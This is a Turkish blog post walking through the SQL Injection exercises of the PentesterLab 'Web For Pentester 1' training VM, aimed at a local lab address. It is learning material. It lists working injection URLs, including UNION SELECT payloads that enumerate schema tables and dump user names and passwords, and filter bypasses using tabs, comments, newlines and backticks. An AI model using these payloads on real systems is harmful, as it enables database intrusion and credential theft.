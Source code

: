 ```yaml
---
layout: post
title: WEB For Pentester 1 - SQL Injections Bölümü Çözümleri
categories: tr
---
```




&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Web For Pentester</strong> yaygın Web zafiyetlerini bize sunan ve bu zafiyetlerden yararlanmaya çalışarak çözümlere ulaştığımız
bir test sistemidir. <a href = "https://www.pentesterlab.com/exercises/web_for_pentester">Bu</a> adresten bilgisayarınıza indirebilirsiniz.
ISO kalıbı bilgisayarınıza indikten sonra Vmware,Virtual Machine gibi sanal makina sistemlerinden birine kurmanız gerekir. Kurulumdan sonra sanal makinenizdeki sistem de ;

>><strong>>>ifconfig</strong>

yazarak gördüğünüz IP adresini ana makinenizdeki tarayıcınıza yazarak <strong>WFP</strong> sorularına ulaşabilirsiniz.
Bu yazıda <strong>SQL Injections</strong> bölümünün çözümlerini anlatmaya çalışacağım.Syntax yapısını sağlamak için gereken  URL encode karakterlerine de ;
<a href = "https://www.w3schools.com/tags/ref_urlencode.asp">şurayı</a>	ziyaret ederek ulaşabilirsiniz.


<strong>Example 1</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Soruda tırnak (') koyup deneme yaptığımızda ekranın bir hatadan dolayı değiştiğini görüyoruz. Buradan araya kod sıkıştırabileceğimizi anlıyoruz.  Örnek olarak arka tarafta çalışan sorgu:

	1. select id,name,age from users where name='root'

Buraya şu ifadeyi eklediğimizde ;

	1. select id,name,age from users where name='root' or 1 or''
	2. select id,name,age from users where 1 

İkinci  duruma geldiğini düşünebiliriz. Bununla bütün değerleri çağırmış oluyoruz ve listeliyoruz.
'or 1 or' ifadesini aşağıdaki gibi URL'ye eklediğimizde tüm tabloyu listeliyoruz. 

	1. http://192.168.96.129/sqli/example1.php?name=root'or 1 or'

Burada çıkan kullanıcıları ve bilgileri görüyoruz. Örneğin user1 ile devam edelim. Buraya yazdığımız kelime sonucu etkilemez. Önümüzdeki tabloda kaç tane sütun olduğunu aşağıdaki komutla deneyerek buluyoruz.

	1. http://192.168.96.129/sqli/example1.php?name=user1' order by 1 %23
	2. http://192.168.96.129/sqli/example1.php?name=user1' order by 2 %23
	3. http://192.168.96.129/sqli/example1.php?name=user1' order by 3 %23
	4. http://192.168.96.129/sqli/example1.php?name=user1' order by 4 %23
	5. http://192.168.96.129/sqli/example1.php?name=user1' order by 5 %23
	6. http://192.168.96.129/sqli/example1.php?name=user1' order by 6 %23

En son 6 da hata oluyor yani önümüze hiç bir şey çıkmıyor. Buradan 5 tane sütunumuz olduğunu anlıyoruz.<strong>'%23'</strong> ifadesi de (#) anlamına geliyor yani sonrasında gelen ifadeleri yok sayıyor. Bu sayede syntax hatalarından kurtuluyoruz.
Bu aşamadan sonra bilgi toplamaya başlıyoruz.İlk sütuna ve ikinci sütuna tablo ve versiyon bilgilerini bastırmak için aşağıdaki işlemi uyguluyoruz.

	1. http://192.168.96.129/sqli/example1.php?name=user1' union select table_name,version(),3,4,5 
	from information_schema.tables %23


Bütün Sütun isimleri için ;

	1. http://192.168.96.129/sqli/example1.php?name=user1' union select column_name,2,3,4,5 
	from information_schema.columns %23

Tablo isimlerini normal yazarak hata alırsak onların hexadecimal karşılıklarını deneyerek sonuca ulaşabiliriz.

	1. http://192.168.96.129/sqli/example1.php?name=root' union select column_name,2,3,4,5 
	from information_schema.columns where table_name = 0x7573657273 %23

Sırayla aşağıdaki işlemleri uygulayarak tablodaki kullanıcı şifrelerini bulmaya çalışalım.

	1. http://192.168.96.129/sqli/example1.php?name=root' union select 
	database(),2,3,4,5 %23 --> Kullanılan veri tabanının ismini çektiğimiz komut.

	2. http://192.168.96.129/sqli/example1.php?name=root' union select table_name,2,3,4,5 
	from information_schema.tables where 
	table_schema = database() %23 --> Kullanılan tablonun adını çektiğimiz komut.

	3. http://192.168.96.129/sqli/example1.php?name=root' UNION SELECT 1,column_name,3,4,5 
	FROM information_schema.columns WHERE table_name="users" %23 --> tablodaki sütunların 
	isimlerini çektiğimiz komut.

	4. http://192.168.96.129/sqli/example1.php?name=root' union select name,passwd,3,4,5 
	from exercises.users %23 --> kullanıcı isimlerini ve şifrelerini çektiğimiz komut.


Çeşitli komut varyasyonları ile farklı bilgiler edinebiliriz. 



<strong>Example 2</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1. Soruda denediğimiz ifadenin aynısını deniyoruz ve <strong>'ERROR NO SPACE'</strong> yazısını görüyoruz. Buradan aralara
koyduğumuz boşluk karakterinin sorun oluşturduğunu anlıyoruz.  Syntax yapısını sağlamak için boşluk yerine tab koyabiliriz. Tabiki Tab tuşuna basarak yapabildiğimiz bir olay değil. TAB karakteri <strong>'%09'</strong> ile ifade edilir.
	
	1. http://192.168.96.129/sqli/example2.php?name=root'or%091%09or'	


<strong>Example 3</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'or 1 or' denediğimizde  <strong> 'ERROR NO SPACE' </strong> hatasını görüyoruz. Sonrasında bir önceki sorudaki gibi  'or%091%09or' deniyoruz fakat yine aynı sonuç : <strong>'ERROR NO SPACE'</strong> . Boşluğa ve tab'a izin vermiyor. Syntax yapısını sağlaması için boşluk benzeri birşey koyacağız ama ne boşluk olacak ne de tab. Biraz araştırma sonucu yorum satırı haline getirerek oralardaki karakter koyma ihtiyacından kurtuluyoruz.

	1. http://192.168.96.129/sqli/example3.php?name=root'or/**/1/**/or


<strong>Example 4</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;URL'nin devamına 'or 1 or' denediğimizde bir sonuç alamıyoruz. Birkaç denemeden sonra tırnak karakteri kullanmamamız gerektiğini anlıyoruz ve yalnızca <strong>or 1</strong> yazarak sonuçlari listeliyoruz.

	1. http://192.168.96.129/sqli/example4.php?id=2 or 1


<strong>Example 5</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4. soruda olduğu gibi aynı işlemi uygulayınca sonucu listeliyoruz.

	1. http://192.168.96.129/sqli/example5.php?id=2 or 1


<strong>Example 6</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tırnak koyup kontrol ediyoruz ve <strong>'ERROR INTEGER REQUIRED'</strong> yazısını görüyoruz. İfademizi bir Integer ile bitirmek için  or 1  yazıyoruz .

	1. http://192.168.96.129/sqli/example6.php?id=2 or 1


<strong>Example 7</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tırnak karakteri koyduğumuzda <strong>'ERROR INTEGER REQUIRED'</strong> yazısını görüyoruz. Bir önceki soruda olduğu gibi or 1 yazıp deniyoruz ama aynı hata devam ediyor. Burada integer isteyen yerin bizim ifademizden önce gelen yer olduğunu deneyerek buluyoruz.<strong>'%0A'</strong> karakteri alt satıra geçme anlamına geliyor. Bunu kullanarak aşağıdaki ifade sonuçları listeliyor.

	1. http://192.168.96.129/sqli/example7.php?id=2%0A or 1

<strong>Example 8</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burada <strong>order</strong> kelimesini görünce order yapısıyla ilgili sorgular göndermeye çalışıyoruz. Düz tırnak gönderdiğimizde bir sonuç alamıyoruz ve denemeler sonucu yatay tırnak(`) kullanıyoruz.

	1. `asc %23
	2. `desc %23
	3. ` %23

ifadeleri işimizi görüyor.

	1. http://192.168.96.129/sqli/example8.php?order=name`asc %23

<strong>Example 9</strong><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Düz tırnak ve yatay tırnak karakterleri hata veriyor ve bunları kullanmadan deneyerek sonuçları listeliyoruz.
 
	1. asc %23
	2. desc %23
	3. %23

İfadelerinden herhangi biriyle sorgumuzu çalıştırıyoruz.

	1. http://192.168.96.129/sqli/example9.php?order=name desc %23

<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Böylelikle <strong>WEB For Pentester 1 SQL Injections</strong> bölümünün çözümünü tamamlamış olduk. Tüm sorular için aynı detaya inme gereği duymadım ilk sorudaki sorgulardan yola çıkarak aynı sonuçları elde edebilirsiniz.








